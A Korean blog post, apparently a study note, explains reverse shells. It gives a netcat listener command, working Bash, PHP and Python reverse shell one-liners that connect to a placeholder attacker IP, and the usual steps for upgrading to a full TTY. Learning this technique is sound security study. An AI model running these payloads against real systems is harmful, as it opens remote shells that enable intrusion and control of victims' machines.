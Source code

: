 ```yaml
---
layout: post
title: "리버스 쉘 (Reverse Shell) 공부"
date: 2025-09-19 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘(Reverse Shell)은 공격 대상 서버가 공격자 PC로 직접 쉘을 연결하도록 만드는 공격 기법이다. 방화벽이 외부에서 내부로 들어오는 연결은 차단하지만 내부에서 외부로 나가는 연결은 허용하는 경우가 많다는 점을 이용한다.

---

### 2. 1단계: 리스너 설정

가장 먼저 공격자 PC에서 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   `-l`: 리스닝 모드
*   `-v`: 상세 정보 출력
*   `-n`: DNS 조회 생략
*   `-p`: 포트 지정

---

### 3. 2단계: 페이로드 실행

대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 도구를 사용하면 원하는 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **PHP:** `php -r '$sock=fsockopen("[Attacker IP]",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

---

### 4. 3단계: 쉘 안정화 (Stabilization)

처음 획득한 쉘은 자동 완성이나 `Ctrl+C`가 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

   ![Reverseshell](/assets/images/Reverse_1.png)

1.  **TTY 쉘 생성:**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    ```bash
    # (Ctrl+Z 입력) -> 쉘을 백그라운드로 보냄
    stty raw -echo; fg
    # (Enter 두 번 입력) -> 다시 포어그라운드로 가져옴
    ```
3.  **환경 변수 설정:**
    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

<hr class="short-rule">
